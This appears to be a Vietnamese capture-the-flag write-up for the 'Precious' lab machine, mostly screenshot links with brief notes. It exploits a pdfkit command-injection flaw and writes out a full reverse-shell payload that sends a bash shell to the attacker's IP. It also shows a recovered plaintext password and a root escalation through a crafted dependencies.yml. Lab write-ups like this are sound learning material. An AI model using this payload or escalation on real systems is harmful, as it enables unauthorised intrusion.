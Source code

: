 # Precious

liệt kê các cổng mở

![https://lh7-us.googleusercontent.com/Lr7mpi2pwluXfCM5VOAFYXFQyHS5QaF0z4zHTOIDNMe7Bxe42svEZ-8HHLmFzZqoFRUc4Gr7tFjRaK5LWid0SCFxfhlsiAQSscEyI_7NbVyKh41bwON70SkhI8Zw9Tm61hGprlivUOi-](https://lh7-us.googleusercontent.com/Lr7mpi2pwluXfCM5VOAFYXFQyHS5QaF0z4zHTOIDNMe7Bxe42svEZ-8HHLmFzZqoFRUc4Gr7tFjRaK5LWid0SCFxfhlsiAQSscEyI_7NbVyKh41bwON70SkhI8Zw9Tm61hGprlivUOi-)

![https://lh7-us.googleusercontent.com/dbmF0E1_EgAok-lHXlgQdsOjU4Wi6xMQTmRg_mxrBHF24Zu-C_04SBfxyzHQL2ppwoDj6J6HpdLNB8xdlcqAGr6Do1X7liDnSBwQ817FL1GYU3fwp9RoH-N3mC2VceqnkE2AF2eaW11M](https://lh7-us.googleusercontent.com/dbmF0E1_EgAok-lHXlgQdsOjU4Wi6xMQTmRg_mxrBHF24Zu-C_04SBfxyzHQL2ppwoDj6J6HpdLNB8xdlcqAGr6Do1X7liDnSBwQ817FL1GYU3fwp9RoH-N3mC2VceqnkE2AF2eaW11M)

có thể dùng feroxbuster để tìm các path ẩn

kiểm tra cổng 80, thử chức năng convert

- > tao 1 may chu de kiem tra co ket noi nguoc tu web vul ve may hacker, để tạo shell sau này

![https://lh7-us.googleusercontent.com/RQOm_tcBMXNkQw22dcoRes08Xw0ZN0dNPYH3WaTgou0CI0IYsxiEE953rigTxxsQG43KqXbpyRGhf1OHtAFqTnfrgqUowHoo6avZYjLpgQSCBYxDIEyDS8bWH5qx7Kec-OxD2ax9042Q](https://lh7-us.googleusercontent.com/RQOm_tcBMXNkQw22dcoRes08Xw0ZN0dNPYH3WaTgou0CI0IYsxiEE953rigTxxsQG43KqXbpyRGhf1OHtAFqTnfrgqUowHoo6avZYjLpgQSCBYxDIEyDS8bWH5qx7Kec-OxD2ax9042Q)

nhập địa chỉ web của máy mình (web vừa tạo)

![https://lh7-us.googleusercontent.com/ntfkBt-6CxoDeibJB3AqFEWxP9gajB6PZ2dPpf7VwErbBCmTdTiSr0xM-3qlLKrEc-GbIJTRGIcThnjGdgXoLTj_W-jR4Q2XD0INXNhhRqoroqVra7yUDunRdlproYqfioBIbn8aiKKB](https://lh7-us.googleusercontent.com/ntfkBt-6CxoDeibJB3AqFEWxP9gajB6PZ2dPpf7VwErbBCmTdTiSr0xM-3qlLKrEc-GbIJTRGIcThnjGdgXoLTj_W-jR4Q2XD0INXNhhRqoroqVra7yUDunRdlproYqfioBIbn8aiKKB)

![https://lh7-us.googleusercontent.com/f3lAnW28xaugzwS5UOrr7bg_Kgi-LkM7yM-LO45tT8jCImFhCr_b6d68w5GEDndRv02UdnSvyNZTVCCwcVNHfIfBd68XF2kTUs-KCWiJG32kFCjOuhTlEQZn0ClE__yfOSJlzUtNowSr](https://lh7-us.googleusercontent.com/f3lAnW28xaugzwS5UOrr7bg_Kgi-LkM7yM-LO45tT8jCImFhCr_b6d68w5GEDndRv02UdnSvyNZTVCCwcVNHfIfBd68XF2kTUs-KCWiJG32kFCjOuhTlEQZn0ClE__yfOSJlzUtNowSr)

nhận thấy web có ghi lại log : địa chỉ web vul gửi yêu cầu đến web mình

![https://lh7-us.googleusercontent.com/Wy2ki2FiMlj1-bkHpKDNGpay_r0JwfbO8utYEEyC3SUyq5sDaqNILzlqo12YFc6BZxC7KqGP7N1YRq4zpUodm4TQTO24W113tCdxigUNJKx7eOxp904L3yvAcQWp7S-Djrr10bpXr7ZP](https://lh7-us.googleusercontent.com/Wy2ki2FiMlj1-bkHpKDNGpay_r0JwfbO8utYEEyC3SUyq5sDaqNILzlqo12YFc6BZxC7KqGP7N1YRq4zpUodm4TQTO24W113tCdxigUNJKx7eOxp904L3yvAcQWp7S-Djrr10bpXr7ZP)

web vul tạo 1 file pdf với tên tự động

dùng exiftool để kiểm tra metadata của file pdf -> thấy creator có liên quan đến cve của thư viện pdfkit

![https://lh7-us.googleusercontent.com/x5bJfsAr001JeogHk9WUcWpvvipZG0wQRo9D1BMPndkKnAf6i4y5Fi6hC3WR7Z8GZKhl4f3lqukP5eIDYAsUj380yh5oZolJX_E5W9Y_S2Z5TnfepQ_NthSB5AtVK8yRlpQr8nZHO0K_](https://lh7-us.googleusercontent.com/x5bJfsAr001JeogHk9WUcWpvvipZG0wQRo9D1BMPndkKnAf6i4y5Fi6hC3WR7Z8GZKhl4f3lqukP5eIDYAsUj380yh5oZolJX_E5W9Y_S2Z5TnfepQ_NthSB5AtVK8yRlpQr8nZHO0K_)

tim kiem cve pdfkit  -> lỗ hổng cho phép command injection

![https://lh7-us.googleusercontent.com/DRWvADe9ginx1q5wOooGdAkbZ8sKQrlvDaJZ79Xnyr1ZjsZpj_MYKr9JJsjVpgiJV7wT63IQdDMP5a2UB6YGT1vHCU5pxhzExB7fnq1BRodmN_P4bgX5_XJ24-LBtrSnVN7K6zQUXrx5](https://lh7-us.googleusercontent.com/DRWvADe9ginx1q5wOooGdAkbZ8sKQrlvDaJZ79Xnyr1ZjsZpj_MYKr9JJsjVpgiJV7wT63IQdDMP5a2UB6YGT1vHCU5pxhzExB7fnq1BRodmN_P4bgX5_XJ24-LBtrSnVN7K6zQUXrx5)

thử thêm lệnh id, chưa hiểu cần phải có %20

It’s not completely clear to me why the %20 (URL-encoded space) has to be at the start of the parameter. It seems to mostly be necessary if there are spaces in the command I’m running.

![https://lh7-us.googleusercontent.com/fvC6yyFO9nxibc3w6dcHIgkc4kVWbIzKkd5ExsL4OcfbkYYDSVvnMqZsuBMOAdgjpCrgE7hSIbO6IudbpXA2rSZ4gGwksAgWJu-IK5VQF-OqU4UF86XhXd3xd1OK_pB_So2l--2_qZzq](https://lh7-us.googleusercontent.com/fvC6yyFO9nxibc3w6dcHIgkc4kVWbIzKkd5ExsL4OcfbkYYDSVvnMqZsuBMOAdgjpCrgE7hSIbO6IudbpXA2rSZ4gGwksAgWJu-IK5VQF-OqU4UF86XhXd3xd1OK_pB_So2l--2_qZzq)

chu y dau thuc thi cau lenh ` khong phai '

![https://lh7-us.googleusercontent.com/2tK-mW13U6rYCoiuI32FG4EiGcL4vUvPu7d9G_IlH38zJRy5DC1aVo5Rl_AOr9BIXSufqZbt6KdgDLE9NI96zzpfqZWoNiv28ClrYdKbNAYjSBNo5r5axvGWNoTB83Xij6wdXUlSe3Fc](https://lh7-us.googleusercontent.com/2tK-mW13U6rYCoiuI32FG4EiGcL4vUvPu7d9G_IlH38zJRy5DC1aVo5Rl_AOr9BIXSufqZbt6KdgDLE9NI96zzpfqZWoNiv28ClrYdKbNAYjSBNo5r5axvGWNoTB83Xij6wdXUlSe3Fc)

cho thấy có thể thực thi lệnh

thử tạo reverse shell bash với câu lệnh sau(mục đích dùng lệnh bash *(-c)*đọc command từ lệnh bash *(-i)*tạo interctive shell, *(&>)*chuyển hướng stderr stdout stdin về cổng 443 tại địa chỉ ip máy hacker

url=http://10.10.14.28/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.28/443 0>&1"`

đồng thời dùng netcat lắng nghe tại cổng 443

- > có được shell của user ruby

![https://lh7-us.googleusercontent.com/DlSD2_F386-aoWbzBqXZG85vlIw9dWwabQSdVmdWIqot4A6xD_6PgDlOeMp-hbu3wAxA7cewspiusZFWGbbkYF4lqLq3ZcuSjy6nwZCOnZ0zyYsLmFDy0DgAhWTDu2FpymzrhJu7UD8Y](https://lh7-us.googleusercontent.com/DlSD2_F386-aoWbzBqXZG85vlIw9dWwabQSdVmdWIqot4A6xD_6PgDlOeMp-hbu3wAxA7cewspiusZFWGbbkYF4lqLq3ZcuSjy6nwZCOnZ0zyYsLmFDy0DgAhWTDu2FpymzrhJu7UD8Y)

tại /home thấy có 2 thư mục của 2 user: henry và ruby

vào /henry có file user.txt nhưng ruby ko có quyền đọc

![https://lh7-us.googleusercontent.com/PIiZa6laS0ZmIRUAmH3ymTVStNveWlGHBW0vGFkor_696H43ORJP8I310LS9xkeca2bY9vXfpMhlg8KHdtUCwA7H0Lk8ZqE8GZDV1FeFoucYdEQznDbdfrpMb9sn1UdYZoC3ud6XnRbs](https://lh7-us.googleusercontent.com/PIiZa6laS0ZmIRUAmH3ymTVStNveWlGHBW0vGFkor_696H43ORJP8I310LS9xkeca2bY9vXfpMhlg8KHdtUCwA7H0Lk8ZqE8GZDV1FeFoucYdEQznDbdfrpMb9sn1UdYZoC3ud6XnRbs)

từ /ruby thấy có thư mục ẩn .bundle đáng nghi

trong đó có file config chứa thông tin đăng nhập của henry

![https://lh7-us.googleusercontent.com/QCiVsHn0tOr7nwa44wKVKme72AszIEDq5gxGkLCtqb11i0woKXR3DkwKbHhlAuSWr0RCoPgj7PbvxJtyi81A0Ht0JphdS3c84ZLTvstSbCf3ZMJ0rYpKsY8qtIuqrt3YtCbwdxSSUkWJ](https://lh7-us.googleusercontent.com/QCiVsHn0tOr7nwa44wKVKme72AszIEDq5gxGkLCtqb11i0woKXR3DkwKbHhlAuSWr0RCoPgj7PbvxJtyi81A0Ht0JphdS3c84ZLTvstSbCf3ZMJ0rYpKsY8qtIuqrt3YtCbwdxSSUkWJ)

henry:Q3c1AqGHtoI0aXAYFH

đăng nhập vào henry và lấy flag

![https://lh7-us.googleusercontent.com/oIHE1rtTL9VZ8r8plDsaXwxEWKEh89cQ_yBO3Mix4QopjPczna0zOVnoZRHJ7yIPJAXU7l5IaujVtwP7lbu_1XFuD9APLVIGzJp2vF-jvfKwE7XcVoMURD38Ko4WTQ_pKm53I3wdqyje](https://lh7-us.googleusercontent.com/oIHE1rtTL9VZ8r8plDsaXwxEWKEh89cQ_yBO3Mix4QopjPczna0zOVnoZRHJ7yIPJAXU7l5IaujVtwP7lbu_1XFuD9APLVIGzJp2vF-jvfKwE7XcVoMURD38Ko4WTQ_pKm53I3wdqyje)

da18e9c7743165a259021bfdb43539f6

liệt kê các lệnh được phép với người dùng hiện tại hoặc được chỉ định

thấy henry có thể thực thi .rb dưới quyền root

![https://lh7-us.googleusercontent.com/WN-DmXdQXEXNTaxrxuiGntWND8gRxTEWwR9Wm9WTUOTvLwE8bHeopburXTlW4RBlfPej5olRklsaNSVmI2HZPKlZpv2dkkucaFBXinEaMzWHc0AbvoCUUREjQFjOvLxQWT9WMMwXgvLG](https://lh7-us.googleusercontent.com/WN-DmXdQXEXNTaxrxuiGntWND8gRxTEWwR9Wm9WTUOTvLwE8bHeopburXTlW4RBlfPej5olRklsaNSVmI2HZPKlZpv2dkkucaFBXinEaMzWHc0AbvoCUUREjQFjOvLxQWT9WMMwXgvLG)

trong sample  có file dependencies.yml nhưng chắc là mẫu, cũng ko thể sửa nd đc

![https://lh7-us.googleusercontent.com/ASWM037jrcbpKUglCxYQODg4SNqHCQPY0oYdw116iS1nFpJSq0_liNwGATLLYsTOJoS8QPuRGnqgu3YIV_j5PVi_0VxPQfYN5Us3ALAs2tdi2G5pcZk-bvgvNolz8THmuoDqVONeFbJH](https://lh7-us.googleusercontent.com/ASWM037jrcbpKUglCxYQODg4SNqHCQPY0oYdw116iS1nFpJSq0_liNwGATLLYsTOJoS8QPuRGnqgu3YIV_j5PVi_0VxPQfYN5Us3ALAs2tdi2G5pcZk-bvgvNolz8THmuoDqVONeFbJH)

→  tạo luôn file dependencies.yml khác ở /opt

![https://lh7-us.googleusercontent.com/TWiKmcSF94ifxKs2kV3XzV5o7Cv2I20Q5gLRlwVYCUnwRpNZYzNu7Xm-KHdGSFcYRpGkSeUDTK6y6cIUqvKrCIEzDdtINsQUADXQGDMkjk2kt-B4JAlZlimWIIMwWxPOGlIg1AUk4s-t](https://lh7-us.googleusercontent.com/TWiKmcSF94ifxKs2kV3XzV5o7Cv2I20Q5gLRlwVYCUnwRpNZYzNu7Xm-KHdGSFcYRpGkSeUDTK6y6cIUqvKrCIEzDdtINsQUADXQGDMkjk2kt-B4JAlZlimWIIMwWxPOGlIg1AUk4s-t)

thực thi .rb với giá trị git_set: /bin/bash để vào được root

![https://lh7-us.googleusercontent.com/9HBo7Y1hDx259cqMApMXkT_kH2b2gxiHL1kl-zd_I0SgaeBYmLud4pf7S4MoWuiXcmMsQq4SKN60raHXY4DW0nmHfxfYHjeFtg0x9sBlGIVYFlSa23Z53Ccchy0PYKia0CojxdiYUYBm](https://lh7-us.googleusercontent.com/9HBo7Y1hDx259cqMApMXkT_kH2b2gxiHL1kl-zd_I0SgaeBYmLud4pf7S4MoWuiXcmMsQq4SKN60raHXY4DW0nmHfxfYHjeFtg0x9sBlGIVYFlSa23Z53Ccchy0PYKia0CojxdiYUYBm)